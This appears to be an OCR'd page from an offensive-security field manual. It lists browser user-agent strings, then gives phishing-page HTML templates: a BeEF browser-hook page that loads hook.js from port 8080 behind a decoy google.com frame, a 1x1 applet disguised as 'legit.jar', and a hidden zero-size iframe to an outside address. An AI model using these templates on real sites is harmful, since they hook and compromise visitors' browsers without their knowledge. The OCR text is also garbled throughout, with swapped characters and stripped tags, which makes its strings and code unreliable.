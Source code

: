 Mozilla/5.0 (Windows NT 5.1)	Chrome Generic/WinXP
AppleWebKit/537.11 (KHTML, like Gecko) Chrome/23.0.12-1.9- Safari/537.11
Mozilla/5.0 (Windows NT 6.1)	Chrome Generic/Win-
AppleWebKit/53-.11 (KHTML, like Gecko) Chrome/23.0.1271.9- Safari/53-.11
Mozilla/5.0 (X11; Linux x86_64)	Chrome Generic/Linux
AppleWebKit/53".11 (KHTML, like Gecko) Chrome/23.0.12-1.9- Safari/537.11
Mozilla/5.0 (Macintosh; Intel Mac OS X	Chrome Generic/MacOSX
10_8_2) AppleWebKit/53-.11 (KHTML, like Gecko) Chrome/23.0.12-1.101 Safari/537.11
Mozilla/5.0 (Windows NT 6.1; W0W64) AppleWebKit/535.1 (KHTML, like Gecko) Chrome/13.0.782.112 Safari/535.1	Chrome 13.0/Win- 64-bit		
Mozilla/5.0 (Macintosh; Intel Mac OS X 10_7_5) AppleWebKit/536.26.1" (KHTML, like Gecko) Version/6.0.2 Safari/536.26.17	Safari 6.0/MacOSX		

Mozilla/5.0 (iPad; CPU OS 6_0_1 like Mac OS	Mobile Safari 6.0/i0S (iPad)
X) AppleWebKit/536.26 (KHTML, like Gecko) Version/6.0 Mobile/10A523 Safari/8536.25
Mozilla/5.0 (iPhone; CPU iPhone OS 6_0_1	Mobile Safari 6.0/i0S
like Mac OS X) AppleWebKit/536.26 (KHTML,	(iPhone)
like Gecko) Version/6.0 Mobile/10A523 Safari/8536.25
Mozilla/5.0 (Linux; U; Android 2.2; fr-fr;	Mobile Safari 4.0/Android
Desire A8181 Build/FRF91) App3leWebKit/53.1 (KHTML, like Gecko) Version/4.0 Mobile Safari/533.1


HTML


HTML BEEF HOOK WITH EMBEDDED FRAME

!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN"
html
head
title Campaign Title./title.
script
var commandModuleStr = 'script src="' + window.location.protocol +
'//' + window_location.host + ':8080/hook.js"
type="text/javascript" \/script ';
document.write(commandModuleStr);

//Siterefresh=window.setTimeout(function{window.location.href='http://ww
w.google.com/'},20000);
/script
/head
frameset rows=",1px"
frame src="http://www google.com/" frameborder=0
noresize="noresize" /
frame src="/e" frameborder=0 scrolling=no noresize=noresize /
/frameset
/html


EMBEDDED JAVA APPLET (* PLACE WITHIN <BODY> TAG)

applet archive="legit.jar" code="This is a legit applet" width="1" height="1" /applet


EMBEDDED IFRAME

iframe src="http://1.1.1.1" width="0" height="0" frameborder="0" tabindex="-1" title="empty" style=visibility:hidden;display:none" -/iframe
